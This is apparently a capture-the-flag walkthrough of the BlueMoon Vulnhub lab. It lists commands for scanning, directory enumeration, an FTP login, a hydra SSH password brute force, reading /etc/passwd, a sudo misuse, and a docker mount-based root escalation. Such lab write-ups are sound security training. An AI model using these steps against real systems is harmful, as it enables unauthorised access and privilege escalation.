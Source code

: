 # BlueMoon: Vulnhub Walkthrough

## Scanning

**nmap 192.168.122.140**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled.png)

**nmap -sV -A 192.168.122.140**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%201.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%201.png)

## Enumeration

Open port 80 in browser http://192.168.122.140/

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%202.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%202.png)

Lets find out directories using gobuster

**gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.122.140/**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%203.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%203.png)

**Found directory hidden_text

Opening it in browser **http://192.168.122.140/hidden_text**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%204.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%204.png)

When clicking on thank you it redirects to QR code.

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%205.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%205.png)

Decoding QR to text

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%206.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%206.png)

**Found ftp port user and password

Now connecting to ftp using **userftp:ftpp@ssword**

**ftp 192.168.122.140**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%207.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%207.png)

**ls**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%208.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%208.png)

**Found two files information.txt and p_lists.txt

Downloading both file

**get information.txt (Download file to attacker machine)**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%209.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%209.png)

**cat information.txt (Reading file in attacker machine)**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2010.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2010.png)

**It giving hint about password list and user is robin

**get p_lists.txt** 

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2011.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2011.png)

**cat p_lists.txt (List of password)**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2012.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2012.png)

## Exploitation

Bruteforcing ssh using password list which we found earlier.

**hydra -l robin -P p_lists.txt 192.168.122.140 ssh**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2013.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2013.png)

Found password for user robin

**ssh robin@192.168.122.140**

**id**

**uname -a**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2014.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2014.png)

**cat /etc/passwd**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2015.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2015.png)

Found one more user jerry

**ls -al**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2016.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2016.png)

Found flag user1.txt

**cat user1.txt**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2017.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2017.png)

## Privilege escalation

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2018.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2018.png)

robin user can run file [feedback.sh](http://feedback.sh) with priviliege of user jerry

**sudo -u jerry /home/robin/project/feedback.sh**

**bash**

**id**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2019.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2019.png)

Got shell for jerry user

**python -c "import pty;pty.spawn('/bin/bash');"**

**cd /home/jerry**

**ls -al**

Found flag2 user2.txt

**cat user2.txt**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2020.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2020.png)

**id**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2021.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2021.png)

Privilege escalation using docker

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2022.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2022.png)

**docker run -v /:/mnt --rm -it alpine chroot /mnt sh**

Got shell for root user

**id**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2023.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2023.png)

**cd /root**

**ls -al**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2024.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2024.png)

**cat root.txt**

![Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2025.png](Bluemoon%20Vulnhub%20Walkthrough%2010e2007117b147f6a70f1b9f90d26bf6/Untitled%2025.png)
